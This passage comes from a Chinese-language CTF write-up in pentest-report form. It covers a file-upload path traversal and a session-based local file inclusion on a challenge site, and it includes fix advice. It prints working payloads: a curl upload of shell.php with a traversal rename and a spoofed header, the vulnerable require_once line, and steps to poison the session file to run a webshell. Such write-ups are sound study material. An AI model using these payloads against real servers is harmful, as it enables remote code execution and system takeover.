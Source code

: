 ### 風險描述
攻擊者可以將任意檔案內容上傳至任意的路徑位置，存在有機會造成 Remote Code Exeuction 的風險。

### 弱點細節
上傳圖片功能並未限制可上傳的檔案格式，並且未限制 rename、folder 參數，因此可以透過「..」字串跳脫當前路徑，將檔案上傳至任意位置，若 web 路徑下存在可寫資料夾，或存在可覆蓋的可執行檔案，攻擊者有機會上傳 webshell 執行任意指令取得系統控制權。

例如：以下參數可將檔案上傳至 /tmp/pwn.php
```bash=
POST http://web.ctf.devcore.tw/b8ck3nd/upload.php
rename=../../../../../../../tmp/pwn.php
file={檔案二進位內容}
```

### 修補建議
限制可上傳檔案的副檔名、檔案類型，並建議強制將檔案重新命名後移動至指定資料夾之中。

### 心得
* 其實很早就看到這個，但因為這需要登陸才能使用，所以其實 flag 很快就出來了，出現 flag 的條件似乎是最後檔案存的位置只要跳脫原先的 images/ 就可以了
* 不過不一定能寫入，這個是最後一題的坑

### Final payload
```bash=
curl http://web.ctf.devcore.tw/b8ck3nd/upload.php -F file=@./shell.php -F rename='../../cc.php' -b "PHPSESSID=flag" -H "x-forwarded-for: 127.0.0.1"
```

## 弱點 06：Local File Inclusion

### CVSS
Score:7.5, CCVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H

### 風險描述
攻擊者可以利用「require_once」函式透過「\.\.」路徑跳脫字串跳脫當前目錄，引入任意的 .php 檔案，若攻擊者可以控制引入檔案的內容，就有機會執行任意系統指令。

### 弱點細節
在 `/usr/share/nginx/frontend/include.php` 檔案之中，由於未過濾 `$_SESSION['lang']` 的變數就直接代入 `require_once` 函式的檔案路徑之中，導致若攻擊者可以控制 session 變數內容，即可引入並執行任意位置的 .php 檔案，搭配「弱點 05：Unrestricted File Upload」控制 session 檔案，即可達成執行任意系統指令。

參考弱點程式碼：
```php=
require_once('langs/' . $_SESSION['lang'] . '.php');
```

### 修補建議
session 參數並非完全可信任，建議使用 session 變數進行危險操作前，仍應檢查是否存在「\.\.」等目錄跳脫字串。

### 心得
* 想了一段時間，一直卡在寫入檔案的問題，因為只能寫入 `images` 跟 `tmp` 裡面
* 之後看到關鍵的 php code
```php=
require_once('langs/' . $_SESSION['lang'] . '.php');
```
* 有趣的地方來了，是可以寫入 tmp 的，所以自然可以寫入自己的 cookie session 裡面，如果看一下裡面的架構長這樣
```bash=
lang|s:5:"zh-tw";user_id|s:1:"1";
```
* 所以我只要改 lang 對應的 string 就可以了
```bash=
lang|s:len(your_upload_file_path):"your_upload_file_path";user_id|s:1:"1";
```
* 之後上傳一下 webshell 就可以拿到 shell 了
